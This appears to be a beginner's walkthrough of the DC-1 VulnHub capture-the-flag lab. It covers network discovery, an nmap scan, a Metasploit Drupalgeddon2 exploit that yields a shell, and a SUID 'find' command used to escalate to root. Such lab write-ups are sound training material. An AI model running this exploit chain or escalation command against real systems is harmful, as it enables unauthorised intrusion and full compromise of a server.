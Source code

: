 # DC1 Vulnhub Walkthrough

#### Description
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

#### There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

  
  # Scaning
  
  ### Reconnaissance 
  
Sudo netdiscover
  
![Screenshot from 2023-01-16 01-16-55](https://user-images.githubusercontent.com/108471951/212977979-8eb9986d-cfe5-43c1-94aa-c37492e289ed.png)

Firstly we have to identify the machine IP address using tool like NetDiscover 
### Nmap

nmap -sV 192.168.0.119 (service version scan)

![Screenshot from 2023-01-17 23-48-32](https://user-images.githubusercontent.com/108471951/212979611-b732a639-bb5c-40b0-a1b5-463c7ed54654.png)


It’s a drupal site. This is first time i seen a Site named Drupal


# Exploiting

msfconsole

search drupal

I have searched for exploit for drupal site in metasploit.
Found some exploits. By using them tried to Exploit 

![Screenshot from 2023-01-16 01-19-36](https://user-images.githubusercontent.com/108471951/212982113-653ef59b-b982-4041-b120-1c32feb029e2.png)




use1

show options

set rhosts [target IP]

exploit

![Screenshot from 2023-01-16 01-20-37](https://user-images.githubusercontent.com/108471951/212984577-492ed27c-4f35-4dfb-a98f-e6e3b2723fb3.png)


After trying some exploits [ exploit/unix/webapp/drupal_drupalgeddon2 ] worked and given a meterpeter shell


![Screenshot from 2023-01-18 00-26-17](https://user-images.githubusercontent.com/108471951/212987116-b5d5c9e3-e308-431c-92ce-ce00bcab8eee.png)


Then using the [shell] comannd I got a Shell

![Screenshot from 2023-01-19 00-41-24](https://user-images.githubusercontent.com/108471951/213274935-894ceccf-4251-4e8e-a05d-38a363400f3b.png)


# Privilege Escalation

Then I tried to change directory to root but its not worked , I dont have root privileges.


![Screenshot from 2023-01-19 00-43-04](https://user-images.githubusercontent.com/108471951/213276028-0d9b9a2d-ddc9-4ccd-bbde-43acd7b08ab1.png)



so in GTFOBins website i find a script for gaining root accses { https://gtfobins.github.io/gtfobins/find/#shell }


                  find . -exec /bin/sh \; -quit


![Screenshot from 2023-01-19 01-03-23](https://user-images.githubusercontent.com/108471951/213277047-d1614401-d5ef-4ba0-ba13-d89743d653c9.png)


Now i got root privilege 

![Screenshot from 2023-01-19 01-06-22](https://user-images.githubusercontent.com/108471951/213277800-001027a5-b2de-4b7c-a1bc-5642687e6332.png)

cd root

ls

cat thefinalflag.txt

Successfully found the flag in root directory.


![Screenshot from 2023-01-19 00-47-37](https://user-images.githubusercontent.com/108471951/213278117-02bc05a5-4ab0-424e-a41e-df32a40c5bf4.png)



@robinpaul

#robinpaul


